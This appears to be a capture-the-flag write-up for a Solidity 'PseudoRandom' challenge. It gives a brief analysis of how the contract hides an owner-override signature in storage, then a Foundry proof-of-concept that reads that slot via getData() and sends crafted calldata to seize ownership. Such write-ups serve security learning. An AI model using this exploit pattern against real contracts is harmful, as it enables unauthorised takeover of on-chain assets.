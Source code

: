 # Analysis

## The constructor
The numeric calculation in the constructor is pretty complex, but we can ignore it and simply focus on where it stores the result.

It stores the `sig` in `slot`, and stores `slot` at `chainid + origin`.

## The fallback function
#### 1. The first `if` branch
The function `0x3bc5de30` is `getData()`, this code branch takes 1 parameter as slot number and loads the corresponding slot value.

#### 2. The second `if` branch
It loads storage slot `chainid + origin`, which stores the `slot` that saved in constructor. we can override the `owner` by giving the correct `sig`.


# POC (Foundry)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/PseudoRandom.sol";

contract PseudoRandomTest is Test {
    string private BSC_RPC = "https://rpc.ankr.com/bsc"; // 56
    string private POLY_RPC = "https://rpc.ankr.com/polygon"; // 137
    string private FANTOM_RPC = "https://rpc.ankr.com/fantom"; // 250
    string private ARB_RPC = "https://rpc.ankr.com/arbitrum"; // 42161
    string private OPT_RPC = "https://rpc.ankr.com/optimism"; // 10
    string private GNOSIS_RPC = "https://rpc.ankr.com/gnosis"; // 100

    address private addr;

    function setUp() external {
        vm.createSelectFork(BSC_RPC);
    }

    function test() external {

        string memory rpc = new string(32);
        assembly {
            // network selection
            let _rpc := sload(
                add(mod(xor(number(), timestamp()), 0x06), BSC_RPC.slot)
            )
            mstore(rpc, shr(0x01, and(_rpc, 0xff)))
            mstore(add(rpc, 0x20), and(_rpc, not(0xff)))
        }

        addr = makeAddr(rpc);

        vm.createSelectFork(rpc);

        vm.startPrank(addr, addr);
        address instance = address(new PseudoRandom());

        // the solution 

		// 1. call `getData()` to get slot number
		bytes memory data1 = abi.encodeWithSignature(
			"getData()",
			block.chainid + uint(uint160(addr))
		);
		( , bytes memory ret1) = instance.call(data1);

		// 2. call `getData()` again to get signature
		bytes memory data2 = abi.encodeWithSignature(
			"getData()",
			bytes32(ret1)
		);
		( , bytes memory ret2) = instance.call(data2);

		// 3. give the correct `sig` and set the `owner`
		bytes4 selector = bytes4(bytes32(ret2));
		bytes memory data3 = abi.encodePacked(
			selector,// 0
			uint(0), // fill some dummy bytes because the `addr` below should start from 0x24
			bytes32(uint(uint160(addr))) // 0x24
		);
		instance.call(data3);
        
		// ---- end of solution ----

        assertEq(PseudoRandom(instance).owner(), addr);
    }
}

```

